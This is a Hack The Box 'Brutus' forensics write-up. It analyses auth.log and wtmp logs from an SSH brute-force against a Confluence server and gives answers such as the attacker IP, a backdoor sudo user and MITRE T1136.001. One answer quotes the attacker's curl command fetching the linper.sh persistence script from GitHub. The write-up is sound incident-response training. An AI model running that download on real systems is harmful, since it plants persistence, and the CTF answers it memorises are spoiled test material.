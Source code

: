 # Brutus
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/332c0735-36c7-4419-8b0a-c3bd0e6699f2)


## Lessons Learned:
- Reviewing UNIX auth.log.
- Identifying the suspect's IP.
- Identify the timestamp for initial manual account logged in / manual entry.
- Reviwing wtmp log file.

## SCENARIO:
In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

## STEPS:
1. In this task we're given a unix auth.log and wtmp logs.

#### Notes:

```
WTMP is a system log file in Unix and Unix-like operating systems. The wtmp file records all user logins and logouts.
It's located in the /var/log directory in most Unix systems.
```

> 1ST QUESTION --> ANS: 65.2.161.68

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7af97fb5-68f5-418a-898a-cde091decf5e)


2. Upon reviewing the log traffic, we can identify 2 IPs. Those are `203.101.190.9` and `65.2.161.68`.
3. Noticed the first IP tried to login as **root** and is authenticated at `06:19:54`. It's only 1 attempt, could means a normal user or the rightful owner of the account.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4b0d7435-4d0b-4228-a491-c7d07dee7632)


4. For the second IP, it tried few attempts to login as **admin(?)** from `06:31:31`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/57da3c0c-c873-463d-90a2-e44f66ccd9e5)


5. Checking for the IP's reputation, found it's marked as suspicious but not marked as abuse IP.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fd72441a-091b-42a2-bcbc-323e81cb013c)


6. However the IP resulting in massive failed login attempt which leads to a security concern. Hence can be marked as the suspect.

> 2ND QUESTION --> ANS: root

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c4b3119b-f1a6-48e8-b4ec-5c689da1984a)


7. Further analysis, found the initial attempt from the suspect IP for root account login.
8. Noticed, after several bruteforce attempts, the suspect finally authenticated as root at `06:31:40` then logout again not long.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/12ed629d-a2ac-46f4-9480-17b6721e7495)


> 3RD QUESTION --> ANS: `06:32:45`

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/110ca3ed-445d-435a-9b97-d24c45ba47fd)

9. To identify the initial manual entry is quite tricky. If we analyze further, we shall identified that the attacker did a manual login to `root` user at `06:32:44`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c6364eb9-ed9e-42de-b486-f60b45528c07)


10. However, the `06:32:44` is the timestamp for the attempt for successfull login.
11. So the timestamp for the account's access should be at `06:32:45`.



> 4TH QUESTION --> ANS: 37

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9357b082-412e-4fe2-8418-9770175aa017)


12. After the attacker did a manual login to the root account, a new session number is created. It's **37**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8536251c-673e-4e93-80a0-fd97a4868b0d)



> 5TH QUESTION --> ANS: cyberjunkie

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/66eb2ed9-d302-4e9b-b3f2-367dcc8ecb67)


13. For the lateral movement, the attacker created a new user and new group named **cyberjunkie**.
14. Then the attacker also add **cyberjunkie** to the **sudo** group so it can execute sudo permissions or open any files that requires sudo.

> 6TH QUESTION --> ANS: T1136.001

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5ccabb66-c177-4d59-9657-e2e411f6dbd7)


15. Searching on the internet about MITRE ATT&CK, we can identify that **persistence** has several tech and sub tech.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4df6453d-fdf9-4ff3-983b-a40a41468328)


16. Judging from what the attacker did, the correct one should be the **Create Account** technique with **Local Account** as it's sub-technique.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/51fa79a9-78fe-47eb-a1eb-ae06959b5414)


> 7TH QUESTION --> ANS: 279

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4dffcc64-f4c4-48d9-b674-1e7c3140be20)


17. Upon reviewing the wtmp log file, we're sure that the attacker's session for the root account is destroyed at `06:37 (UTC+8)`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e5812d75-f4dc-497a-b3b7-f43175052b64)


18. To identify the **second** time, review the auth.log which states **remove session** or **close session**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/104a386a-b581-4009-a58d-6d1065760940)


19. Then to calculate the session should be a cumulative time from:

```
06:32:45 - 06:37:24 --> 279 seconds.
```

> 8TH QUESTION --> ANS: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e2e4ac94-d7a5-48ec-af40-ea78df85b254)


20. Furthermore the attacker logged in to the server as **cyberjunkie** and executed sudo command at `06:39:38`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e10dc690-63a9-4fca-ab48-ff2be7eda996)


## IMPORTANT LINKS

```
https://attack.mitre.org/techniques/T1136/
```
